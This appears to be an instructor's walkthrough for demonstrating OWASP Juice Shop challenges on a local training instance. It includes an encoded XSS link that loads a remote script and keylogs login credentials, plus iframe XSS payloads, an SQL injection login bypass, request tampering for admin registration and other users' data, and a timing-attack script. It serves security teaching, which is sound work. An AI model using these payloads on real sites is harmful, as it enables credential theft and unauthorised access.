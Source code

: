 ```yaml
---
layout: default
---
```


# Setup

Configure and run a custom docker-based instance of juice-shop:

```
sudo docker run -ti --init --rm  -p 3000:3000 -p 8080:80 hugopacheco/juice-shop-demo

sudo apt-get -y install python3-pip
pip3 install requests statistics argparse
```

Install [Google Chrome](https://www.google.com/chrome/) and its [WebSpy](https://chrome.google.com/webstore/detail/webspy-explore-and-test-w/aedipmheomnpcbgmanofhaccebgapije?hl=en) extension.

Open the Juice Shop website (http://localhost:3000) with Chrome.

## FAQ

* For multiple demos, killing and relaunching the docker container shall reset all progress.
* If the timing delays in the timing attack demo are not noticeable, you may increase the delay in milliseconds for each product search by setting the flag `SEARCH_DELAY` before launching the container, e.g. `export SEARCH_DELAY=100` sets the delay to 100ms. 

# Examples

You can demonstrate these in order, or select a few at will.

## Score Board :star: challenge

<details>
<summary>More info</summary>

This challenge serves to explain the structure web pages and to demonstrate how Juice Shop challenges work:

1. Explain how to use the browser's Developer Tools.
2. Then show how to find the score-board by inspecting the HTML and JavaScript code of the frontpage.
3. You will find the `score-board` as a `path` defined in file `main.js`. Go to the page `http://localhost:3000/#/score-board`.
4. When you solve a Juice Shop challenge, the site will greet you with a green notification.
</details>
<p></p>

## XSS demo

<details>
<summary>More info</summary>

Showcase the XSS demo (more detailed instructions [here](https://pwning.owasp-juice.shop/appendix/trainers.html)):

1. Open the keylogger at (http://localhost:8080/logger.php).
2. Open this [link](http://localhost:3000/#/search?q=%3Cimg%20src%3D%22bha%22%20onError%3D%27javascript%3Aeval%28%60var%20js%3Ddocument.createElement%28%22script%22%29%3Bjs.type%3D%22text%2Fjavascript%22%3Bjs.src%3D%22http%3A%2F%2Flocalhost%3A8080%2Fshake.js%22%3Bdocument.body.appendChild%28js%29%3Bvar%20hash%3Dwindow.location.hash%3Bwindow.location.hash%3D%22%23%2Fsearch%3Fq%3Dowasp%22%3BsearchQuery.value%20%3D%20%22owasp%22%3B%60%29%27%3C%2Fimg%3Eowasp) in a new tab to start the XSS attack. Explain why following malicious links is a very common scenario. Your page will run some malicious JS that plays music and shakes to its sound, while it installs a keylogger.
3. Login as an existing user and see that the credentials are being recorded to the keylogger.
4. Refresh the web page to unload the attack script.
</details>
<p></p>

## Zero Stars :star: challenge

<details>
<summary>More info</summary>

Explain how to use WebSpy (under `Developer Tools > Spy`) to monitor the requests made by the browser to the Juice Shop website. Argue why this is the modus-operandi of many hackers.
Then show how to submit a zero-star review:

1. Do a regular action: posting a new comment in the *Customer Feedback* page.
2. You may check that your comment actually appears in the *About Us* page.
3. Replay a similar request with WebSpy, this time with `rating:0`. 
</details>
<p></p>

## Timing attack demo

<details>
<summary>More info</summary>

This is a demo on how subtle timing differences may allow us to recover hidden information. This is not an actual Juice Shop challenge, but is inspired by the Christmas Special :star: :star: challenge.

1. Open up WebSpy and find the backend search request. You may notice that, independently of the search query in the frontend, the backend requests is always `/rest/products/search?q=` with an empty query. (Product filtering is happening by default in the JS side.)
2. You can nonetheless replay the request and fill in the `q` argument with your own search term.
3. This is particularly interesting for search terms for which there are **no apparent** products. For example, the Christmas Special challenge invites us to search for an hidden *Christmas special offer of 2014*. We can use WebSpy to search for two different terms such as `christmas` and `personal`; they both return an empty match, but is there a noticeable difference in the time of the request? It does seem so...
4. After all the server may take an arbitrary time to respond. We can further support our suspicions by repeating the same requests multiple times and checking if there is still a significant difference in the average times. Download this Python [script](demo/xs-search.py) to automate the search. Then run the script for our two search terms; you shall get something like this:

```
% python3 xs-search.py christmas
Namespace(QUERY='christmas', n=10, t='runtime', nextchar=False, length=None, host=['localhost:3000'])
<Response [200]>
{"status":"success","data":[]}
christmas 0.03077825400000438
```

```
% python3 xs-search.py personal
Namespace(QUERY='personal', n=10, t='runtime', nextchar=False, length=None, host=['localhost:3000'])
<Response [200]>
{"status":"success","data":[]}
christmas 0.007031379100000438
```

Why does `christmas` take longer than `personal`? Probably because the server is taking more time to compare the search term and prepare the results for products that exist, than for products that do not exist.

5. There does seem to exist some product with the word `christmas` in its name. How can we find its full name? We can start by trying to find the length of the name, not its exact characters. This is possible because the search feature supports a special `_` character wildcard. We just try to append some number of `_` after the word `christmas` (the min and max are adjustable):

```
% python3 xs-search.py christmas --length 30 40
Namespace(QUERY='christmas', n=10, t='runtime', nextchar=False, length=[30, 40], host=['localhost:3000'])
christmas 30 0.029176039000041783
christmas 31 0.02855586099997163
christmas 32 0.02822081399941817
christmas 33 0.029214259500149636
christmas 34 0.029317782500293106
christmas 35 0.006840303499717265
christmas 36 0.006761338000651449
christmas 37 0.00686634499952197
christmas 38 0.006910367999691516
christmas 39 0.006873979499563575
```

You may notice that the timing drops precisely at 35 and onwards. This suggests that our christmas product includes the name `christmas` followed by 35 other characters.

6. Now, how do we find the exact name? An idea is to attempt several characters, and check if there is a measurable time difference. In the script, we are trying characters from `a` to `z` and from `0` to `9`; other special characters are captured by the `_` wildcard. We can repeat this process one character at a time:

```
% python3 xs-search.py christmas -nextchar
Namespace(QUERY='christmas', n=10, t='runtime', nextchar=True, length=None, host=['localhost:3000'])
christmasa 0.008081472499761731
christmasb 0.008309272999875248
...
christmas_ 0.029330530500039458
```

It seems that the `_` wildcard takes longer, hence the next character after `christmas` is neither a letter nor a number. 

```
% python3 xs-search.py christmas_ --nextchar
Namespace(QUERY='christmas_', n=10, t='runtime', nextchar=True, length=None, host=['localhost:3000'])
christmas_a 0.006253162499982864
...
christmas_s 0.029131466499995443
...
christmas__ 0.028724410000257196
```

It seems that `s` takes longer (actually, the same as the `_` wildcard which alwayas matches), hence the word `christmas_s` is in the name of our product.

You can repeat this process 35 times. The name of the actual hidden product is `Christmas Super-Surprise-Box (2014 Edition)`.

</details>
<p></p>

## Confidential Document :star: challenge

<details>
<summary>More info</summary>

1. Check the *About Us* page and follow the linked FTP file (`/ftp/legal.md`).
2. Replay the request with WebSpy to list the parent directory (`/ftp/`).
3. Find the `acquisitions.md` file in the response a get the confidential file (`/ftp/acquisitions.md`)..
</details>
<p></p>

## DOM XSS :star: challenge

<details>
<summary>More info</summary>

Paste the JS script from the challenge (`<iframe src="javascript:alert(`xss`)">`) in the search field. You will see a XSS popup.
</details>
<p></p>

## Reflected XSS :star: :star: challenge

<details>
<summary>More info</summary>

1. Create some user and login.
2. Order some product (add some product to the basket, checkout, fill out all the payment information and place order), visit the *Order History* page and click *Track Order* on your order.
3. The link of your product's order information will have the structure `/#/track-result/new?id=7cb0-dd30e23740d08c54`
3. Attack the orders search feature by replacing your order id with the JS script from the challenge (`<iframe src="javascript:alert(`xss`)">`). You may need to refresh the page for the script to be actually executed.
</details>
<p></p>

## Admin Registration :star: :star: :star: challenge

<details>
<summary>More info</summary>

1. Register a new user and inspect the request/response in WebSpy.
2. Inspect the fields of the response, you shall see a field `role: customer`
3. Replay the request with `role:admin` to register a new user with admin privileges. Make sure to register a new user; registering a repeated user issues an error.
</details>
<p></p>

## Admin Section :star: :star: challenge

<details>
<summary>More info</summary>

1. You need to be logged in as a user with admin privileges (from previous challenge)
2. Find the admin page by inspecting the HTML and JavaScript using the Developer Tools.
3. You will find the `administration` page as a `path` defined in file `main.js`.
</details>
<p></p>

## Forged Review :star: :star: :star: challenge

<details>
<summary>More info</summary>

1. Submit a new review for some product, while logged in, and replay it with WebSpy.
2. Try changing the author information (the `author` field in the request is just a string, the user doesn't even need to be valid).
</details>
<p></p>

## Forged Feedback :star: :star: :star: challenge

<details>
<summary>More info</summary>

1. Submit a new comment in the *Customer Feedback* page, while logged in, and replay it with WebSpy.
2. Try changing the user information (changing the `UserId` field to some other random user id, e.g. `1`; the user's name in the comment is just a string unrelated to the actual user id).
</details>
<p></p>

##  View Basket :star: :star: challenge

<details>
<summary>More info</summary>

1. View your basket and replay the request with WebSpy for a different user. You may notice that the user id appears in the request link (`/rest/basket/<id>`).
2. Replay the request with WebSpy for some other user id (e.g., `1`).
</details>
<p></p>

## Login Admin :star: :star: challenge

<details>
<summary>More info</summary>

You can also try to break authentication by demonstrating how SQL injection works:

1. Search for user account name in the *About Us* page. You may notice that there are a few `****@juice-sh.op` accounts.
2. Since we trying to login as special user named admin, a good guess is to assume that his account name will be `admin@juice-sh.op`.
3. Go to the login page and demonstrate the SQL injection by typing `admin@juice-sh.op' --` in the `username` field and anything in the `password` field.
4. You may confirm that this user actually has administrator privileges by going to the `/#/administration` page.
</details>
<p></p>



